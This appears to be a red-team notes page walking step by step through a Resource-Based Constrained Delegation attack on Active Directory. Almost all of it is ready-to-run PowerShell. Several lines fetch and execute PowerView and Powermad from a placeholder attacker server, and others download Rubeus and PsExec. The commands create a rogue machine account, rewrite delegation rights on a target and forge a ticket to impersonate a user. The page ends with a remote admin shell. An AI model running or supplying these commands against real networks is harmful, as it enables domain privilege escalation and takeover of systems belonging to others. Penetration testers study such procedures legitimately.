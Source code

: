 # <h1 align="center" id="heading">Resource-Based Constrained Delegation</h1>
In order to exploit RBCD, I need to find a system or user that has GenericWrite privileges over another system. I can use the following command to enumerate this privilege:
```powershell
iex(new-object system.net.webclient).downloadstring("http://<attacker_server>/PowerView.ps1");Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
Once I find a viable target, I will need to run the following commands to create a new machine account using PowerMad:
```powershell
iex(new-object system.net.webclient).downloadstring('http://<attacker_server>/Powermad.ps1');New-MachineAccount -MachineAccount MyComputer -Password $(ConvertTo-SecureString 'Password1234!' -AsPlainText -Force) -Verbose
```
After creating a new computer accont, I can run the following command to verify the account was created:
```powershell
iex(new-object system.net.webclient).downloadstring('http://<attacker_server>/PowerView.ps1');Get-DomainComputer -Identity MyComputer
```
I will then use the following commands to perform the exploit:
```powershell
$sid =Get-DomainComputer -Identity MyComputer -Properties objectsid | Select -Expand objectsid
```
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```
```powershell
$SDbytes = New-Object byte[] ($SD.BinaryLength)
```
```powershell
$SD.GetBinaryForm($SDbytes,0)
```
```powershell
iex(new-object system.net.webclient).downloadstring('http://<attacker_server>/PowerView.ps1');Get-DomainComputer -Identity <target system> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
```powershell
iex(new-object system.net.webclient).downloadstring('http://<attacker_server>/PowerView.ps1');$RBCDbytes = Get-DomainComputer <target system> -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```
```powershell
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
```
```powershell
$Descriptor.DiscretionaryAcl
```
I will now run the following command to download Rubeus to the target system:
```powershell
wget http://<attacker server>/rubeus.exe -outfile ./rubeus.exe
```
I will use the following command to create a hash for my password that I set for the computer account:
```powershell
.\rubeus.exe hash /password:Password1234!
```
I can now perform a PTT to the target system with the following command:
```powershell
.\rubeus.exe s4u /user:MyComputer$ /rc4:<password hash> /impersonateuser:<target user> /msdsspn:CIFS/<target system> /ptt
```
I will now download PSExec64.exe to the target with the following command:
```powershell
wget http://<attacker server>/PsExec64.exe -outfile ./PsExec64.exe
```
I can run the following command to check to see if I can make use of the ticket:
```powershell
dir \\<target system>\c$
```
I will now launch an admin cmd.exe, re-PTT, and run the following command to establish a PSExec session on the target system:
```powershell
PsExec64.exe \\<target system> cmd
```
